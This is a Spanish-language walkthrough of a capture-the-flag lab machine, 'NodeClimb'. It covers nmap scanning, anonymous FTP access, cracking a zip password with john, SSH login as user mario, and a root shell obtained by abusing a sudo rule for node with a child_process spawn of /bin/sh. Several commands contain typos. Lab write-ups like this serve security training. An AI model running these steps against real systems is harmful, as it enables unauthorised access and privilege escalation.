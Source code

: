 ### Informe de máquina *"NodeClib"*

![Máquina Psycho](./screenshots/01_maquina.png)

Vamos a realizar la maquina "NodeClimb", como siempre vamos a empezar asignando permisos de ejecución al archivo `auto_deploy.sh` eh inicializamos la maquina con `sudo ./autodeploy ` `psycho.tar`

![Permisos ejecución deploy](./screenshots/02_permisos_deploy.png)
![Inicialización máquina](./screenshots/03_inicio_maquina.png)

Realizamos un testeo de conexión con el comando `ping`.

![Test de conexión](./screenshots/04_ping.png)

Y realizamos un escaneo de puertos abiertos con la herramienta `nmap`, el comando usado fue:

```bash
nmap -sS --min-rate 5000 -p- -vvv -Pn -n 172.17.0.2 -oG nmap
```

- `nmap` → Comando para ejecutar herramienta nmap.
- `-sS` → Escaneo SYN ("Stealth Scan"). Envía paquetes SYN sin completar la conexión TCP (más rápido y sigiloso que -sT).
- `--min-rate 5000` → Fuerza a nmap a enviar al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-p-` → Escanea todos los 65535 puertos (en lugar de solo los más comunes).
- `-vvv` → Modo muy detallado (muestra más información en pantalla mientras se ejecuta).
- `-Pn` → No realiza detección de host (asume que el host está activo y no envía ping previo).
- `-n` → No resuelve nombres de dominio (evita consultas DNS, lo que acelera el escaneo).
- `172.17.0.2` → IP objetivo a escanear.
- `-oG nmap` → Guarda los resultados en formato "greppable" en un archivo llamado nmap.

![Escaneo nmap](./screenshots/05_nmap.png)

Encontramos los puertos `21` y `22` abiertos, procedemos a realizar un escaneo más detallada de estos.

```bash
nmap -p21,22 -sC -sV -O 172.17.0.2
```

- `nmap` → Ejecuta la herramienta de escaneo de red Nmap.

- `-p21,22` → Especifica los puertos que queremos escanear. En este caso 21 y 22.

- `-sC` → Ejecuta scripts de detección predeterminados

- `-sV` → Detección de versiones de servicios.

- `-O` → Detección del sistema operativo.

- `172.17.0.2` → Especifica la dirección IP del objetivo a escanear.

![Detalle puertos 21 y 22](./screenshots/06_detalle_puertos_21_22.png)

Detectamos que el servicio FTP permite realizar un logueo como usuario Annonymous, intentamos conectarnos de esa forma:

![Logueo FTP como annonymous](./screenshots/07_acceso_ftp.png)

Se pudo realizar la conexión, nos encontramos un archivo zip, procedemos a descargarlo:

```bash
wget ftp://172.17.0.2/secretopicaron.zip --no-pasive-ftp
```

![Descarga archivo zip](./screenshots/08_download_zip.png)

Al intentar descomprimir el archivo zip, vemos que nos solicita una contraseña, intentaremos buscar la  contraseña por fuerza bruta haciendo uso de la herramienta `john`

Primero obtengamos el hash del archivo con el comando:

```bash
zip2john secretopicaron.zip > zip.hash
```

Ahora realizamos el ataque de fuerza bruta con el comando:

```bash
john --worldlists=/usr/share/worldlists/rockyou.txt zip.hash
```

![Password de zip](./screenshots/09_find_passwd_zip.png)

Identificamos que la contrasela del zip es "password1", procedemos a descomprimir el archivo con `unzip`, encontramos dentro un archivo llamado "password.txt" con el contenido `mario:laKontraseñAmasmalotaHdelbarrioH`
Asumimos que es la contraseña del usuario `mario`

![Password Mario](./screenshots/10_password_mario.png)

Accedemos con el usuario `mario` y con `sudo 'l` vemos que permisos de ejecución sudo posee este usuario.

![Login como Mario](./screenshots/11_loging_como_mario.png)

Observamos que el usuairo `mario` puede ejecutar el comando `node` con privilegios pero solo hacia el archivo `/home/mario/script.js`.

![Permisos sudo de mario](./screenshots/12_permisos_sudo.png)

Investigamos un poco de como podemos ejecutar una shell con el comando node.
Con el comando `nano` editamos el archivo `script.js` de la siguiente forma

```
const { spawn } = require("child_process");
spawn("/bin/sh", { stdio: "inherit" });
```

Ahora procedemos a ejecutar el comando node junto con el script haciendo uso de altos privilegios:

```bash
sudo /usr/bin/node /home/mario/script.js
```

Y ejecutando el comando `whoami` podemos observar que ahora somos usuario `root`

![Login como root](./screenshots/14_root.png)


